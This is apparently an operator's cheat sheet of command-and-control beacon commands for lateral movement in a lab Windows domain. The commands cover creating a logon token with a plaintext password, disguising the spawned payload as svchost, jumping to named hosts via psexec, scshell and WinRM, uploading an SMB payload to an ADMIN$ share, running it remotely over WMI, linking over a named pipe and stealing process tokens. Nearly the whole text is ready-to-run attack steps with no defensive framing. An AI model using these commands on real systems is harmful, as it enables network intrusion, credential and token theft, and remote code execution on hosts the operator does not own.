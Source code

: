 
Create logon session as local Admin
```powershell
make_token CONTOSO\rsteel Passw0rd!
```

Change the `spawnto` for the service payload
```powershell
ak-settings spawnto_x86 C:\Windows\SysWOW64\svchost.exe
ak-settings spawnto_x64 C:\Windows\System32\svchost.exe
```

Jump via psexec64
```powershell
jump scshell64 DUB-WEB-1 smb

jump psexec64 DUB-WKSTN-2 smb

jump winrm64 DUB-WEB-1 smb

jump scshell64 dub-sql-1.dublin.contoso.com smb

jump psexec64 enc-fs-1.contoso.enclave smb
```

---

Manual
```powershell
cd \\enc-jmp-1.contoso.enclave\ADMIN$

upload C:\Payloads\smb_x64.exe

remote-exec wmi enc-jmp-1.contoso.enclave C:\Windows\smb_x64.exe
```


```powershell
link smb enc-jmp-1.contoso.enclave W32TIME_ALT-1337
```

```powershell
token-store steal 3184
token-store use 0 
```